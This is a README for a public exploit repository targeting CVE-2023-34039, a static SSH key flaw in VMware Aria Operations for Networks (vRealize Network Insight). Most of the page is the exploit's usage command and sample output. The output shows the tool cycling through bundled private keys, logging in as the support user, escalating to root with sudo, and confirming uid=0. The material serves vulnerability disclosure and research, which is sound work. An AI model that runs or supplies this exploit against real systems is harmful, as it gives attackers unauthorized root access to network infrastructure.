# CVE-2023-34039

![](https://img.shields.io/static/v1?label=Product&message=VMWare%20Aria%20Operations%20for%20Networks&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=from%20version%206.0%20to%206.10&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20SSH%20Auth%20Bypass&color=red)



For the full writeup, click [here](https://summoning.team/blog/vmware-vrealize-network-insight-rce-cve-2023-34039/)


```
### Usage
```
python CVE-2023-34039.py --target Target_IP

(!) VMWare Aria Operations for Networks (vRealize Network Insight) Static SSH key RCE (CVE-2023-34039)

(*) Exploit by Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)

(*) Trying key: keys/vrni-6.2.0/id_rsa_vnera_keypair_6.2.0_collector

(*) Trying key: keys/vrni-6.2.0/id_rsa_vnera_keypair_6.2.0_platform

(*) Trying key: keys/vrni-6.10.0/id_rsa_vnera_keypair_6.10.0_platform


********************************** ATTENTION **********************************
 NTP Service is not healthy.
 IMPACT: It may affect the proper working of other services.
 ACTION: Restore the service using 'ntp' CLI command.
********************************** ATTENTION **********************************
support@vrni-platform-release:~$ sudo -i
root@vrni-platform-release:~# id
uid=0(root) gid=0(root) groups=0(root)
root@vrni-platform-release:~# hostname
vrni-platform-release
root@vrni-platform-release:~# 

```

